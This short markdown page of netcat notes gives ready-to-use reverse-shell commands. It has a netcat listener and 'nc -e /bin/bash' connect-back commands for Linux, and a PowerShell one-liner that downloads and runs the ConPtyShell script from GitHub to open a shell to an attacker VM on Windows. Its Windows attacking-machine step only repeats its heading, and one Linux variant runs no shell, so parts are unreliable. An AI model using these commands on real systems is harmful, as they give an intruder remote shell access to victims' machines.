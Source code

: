 # netcat xamples

## Reverce shell attack

### Attack Linux

#### ATTACKING machine

`nc -lnvp 87 -s ip-address-of-your-cloud-vm`

#### TARGET machine

```
nc -e /bin/bash ip-address-of-your-cloud-vm
OR
nc ip-address-of-your-cloud-vm
```

### Attack Windows

#### ATTACKING machine

ATTACKING machine

#### TARGET machine

IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell ip-address-of-your-cloud-vm 87
